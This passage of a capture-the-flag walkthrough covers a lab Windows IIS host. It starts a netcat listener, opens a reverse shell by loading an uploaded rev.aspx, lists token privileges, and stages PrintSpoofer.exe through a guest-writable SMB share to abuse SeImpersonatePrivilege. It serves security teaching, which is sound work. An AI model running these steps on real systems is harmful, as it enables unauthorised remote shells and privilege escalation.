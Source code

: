 Setting up our `NetCat` listener on the host machine.

```
$ nc -nlvp 53
```

And now pointing our web browser to <http://10.10.227.128:49663/nt4wrksv/rev.aspx> should start our reverse shell.

````commandline
connect to [10.8.208.30] from (UNKNOWN) [10.10.155.122] 49896
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>
````

## Privileges escalation

````commandline
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

c:\windows\system32\inetsrv>
````

We will make use of the `SeImpersonatePrivilege` flaw that has been recently discovered.

Download the binary `PrintSpoofer.exe` from here <https://github.com/dievus/printspoofer>. It is from the author of this box in this room.

On our host machine, we need to get that file.

````commandline
$ wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe
````

We can now transfer that with `smbclient`.

````commandline
$ smbclient -U guest \\\\$IP_TARGET\\nt4wrksv\\
Enter WORKGROUP\guest's password: 
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (207.0 kb/s) (average 207.0 kb/s)
smb: \> dir
  .                                   D        0  Wed Sep  8 00:22:09 2021
  ..                                  D        0  Wed Sep  8 00:22:09 2021
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Sep  8 00:22:09 2021
  rev.aspx                            A     3434  Tue Sep  7 23:49:20 2021

````